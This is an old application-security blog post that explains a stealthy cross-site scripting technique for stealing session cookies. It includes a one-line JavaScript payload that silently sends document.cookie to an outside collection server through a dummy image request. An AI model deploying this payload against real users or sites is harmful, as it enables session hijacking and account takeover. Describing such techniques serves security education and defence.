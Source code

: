 title: Stealth Cookie Stealing (XSS technique)
date: 2011-05-13
categories: [application security]

Everyone knows what XSS is, right? Good, I'll spare you the definition. A common use for XSS is stealing cookies to hijack sessions and gain access to restricted web content. Cookie stealing is typically done by forcing a target's browser to issue some sort of GET request to a server controlled by the attacker which accepts the target's cookie as a parameter and processes it in some way. In most cases, when a cookie stealing XSS attack is successful, it generates a visual clue which can tip off the target. While it is too late at this point, stealth has been compromised, and could be the difference between the user keeping the session active, or clicking 'log out' and rendering your stolen cookie invalid.

![Good ole' fashion cookie stealin'](/images/posts/cookie_monster.jpg)

About a year ago, I came up with a stealth technique for executing cookie stealing XSS attacks that I assumed was common knowledge. But after talking about the technique with several top web app security professionals, I realize that the technique may be more unique than I initially thought. Below is an example of the technique.

``` javascript
javascript:img=new Image();img.src="http://tools.lanmaster53.com/monster.php?cookie="+document.cookie;
```

For those that don't understand exactly what is going on here, basically, I'm using a dummy JavaScript image to launch a GET request. The first part of the script instantiates an image object, and the second part sets the source attribute of the image object. In this example, the source url is what you would use in any other cookie stealing attack. The key here is that once the source attribute is set, the browser fires off the request and stores the response in memory. I never use the instantiated image, the browser doesn't care, and the user is unaware that anything has happened. Stealth is maintained.
